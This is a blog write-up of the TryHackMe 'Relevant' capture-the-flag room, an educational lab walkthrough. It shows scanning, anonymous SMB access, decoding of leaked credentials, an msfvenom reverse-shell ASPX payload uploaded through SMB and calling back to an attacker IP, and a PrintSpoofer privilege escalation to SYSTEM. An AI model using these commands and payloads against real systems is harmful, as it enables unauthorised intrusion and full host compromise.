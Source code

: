 ```yaml
---
title: TryHackMe - Relevant
layout: post
categories:
- TryHackMe
tag:
- pentest,
- security,
- accessible
image: "/assets/img/relevant.jpeg"
image_alt: relevant
---
```


Relevant is a medium challenge from TryHackMe. There are some ways to complete this machine. I'll solve it one way. Let's start.

<br>

## 1. Pre-Engagement Briefing 

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

   - User.txt
   - Root.txt

Additionally, the client has provided the following scope allowances:

   - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
   - Locate and note all vulnerabilities found
   - Submit the flags discovered to the dashboard
   - Only the IP address assigned to your machine is in scope
   - Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)
I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

<br>

### 1.1 User Flag?

Let's do a nmap scan first.

```
$ nmap -sSV -P- 10.10.7.6
```

![nmap](/assets/img/tryhackme/relevant/nmap.png)

And we found a few ports that will work for us. These are 80/tcp HTTP, 49663/tcp HTTP, and 445/tcp

I did a gobuster scan, and the connection to both HTTP ports, probably due to my VPN, was very slow, I couldn't wait, so I couldn't get any results from the gobuster scan.

```
$ gobuster dir -u http://10.10.7.6:49663/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/relevant/gobuster.png)

So I decided to try SMB login.

```
$ smbclient -L //10.10.7.6
```

![smb](/assets/img/tryhackme/relevant/smb.png)

There is no password.

We found this `nt4wrksv`. Now, let's try to get in here.

```
$ smbclient //10.10.7.6/nt4wrksv
```

![password](/assets/img/tryhackme/relevant/password.png)

We found the passwords.txt file. Let's see what's in it.

```
> get passwords.txt
> exit
$ cat passwords.txt
```

![smbin](/assets/img/tryhackme/relevant/smbin.png)

This file contains base64 encoded credentials:

```
$ echo "Qm9iIVBAJCRXMHJEITRyMw==" | base64 -d
$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA20TY5NjkhJCQK" | base4 -d
```

![base64](/assets/img/tryhackme/relevant/base64.png)

**`Bob : !P@$$W0rD!123`**

**`Bill: Juw4nnaM4n420696969!$$$`**

You have access to SMB, so let's check if we can install and run the reverse shell.

First, let's create a reverse shell. Then let's put it in SMB.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.168.86 lport=4444 -f aspx -o shell.aspx
$ smbclient //10.10.7.6/nt4wrksv
$ put shell.aspx 
```

![payload](/assets/img/tryhackme/relevant/payload.png)

Now let's create a listener using metasploit.

```
$ msfconsole
> use exploit/multi/handler
> set payload windows/x64/meterpreter_reverse_tcp
> set LHOST 10.8.168.86
> set LPORT 4444
> run
```
And call the reverse shell in the browser **`http://10.10.7.6:49663/nt4wrksv/shell.aspx`**

And we are inside.

![info](/assets/img/tryhackme/relevant/info.png)

Now we can get the user flag.

```
> cd c:/Users/Bob/Desktop
> cat user.txt
```

![user-flag](/assets/img/tryhackme/relevant/user-flag.png)

<br>

### 1.2 Root Flag?

We need to do an authorization elevation for the root flag. 
Running the “whoami /priv” command to check the current user’s privileges in the system:

```
> shell
> whoami /priv
```

![priv](/assets/img/tryhackme/relevant/priv.png)

It appears the current user has the SeImpersonatePrivilege token enabled, which means token impersonation could be used to escalate privileges.

Although Juicy Potato is normally used to exploit token impersonation, this only works if DCOM is enabled on the server. A great alternative is the PrintSpoofer exploit. Downloading the exploit from the Git repository and placing it on the nt4wrksv SMB share so it can be easily transferred to the target machine: [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

First, let's download the file and put it in SMB, then run it.

```
$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
$ smbclient //10.10.7.6/nt4wrksv
$ put PrintSpoofer64.exe
```

Let's go back to shell and follow.

```
> cd \inetpub\wwwroot\nt4wrksv
> dir
> PrintSpoofer64.exe -i -c powershell.exe
```

![privesc](/assets/img/tryhackme/relevant/privesc.png)

And now we have root privileges. Now we can reach the root flag. 

```
$ cd c:/Users/Administrator/Desktop
$ cat root.txt
```
<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
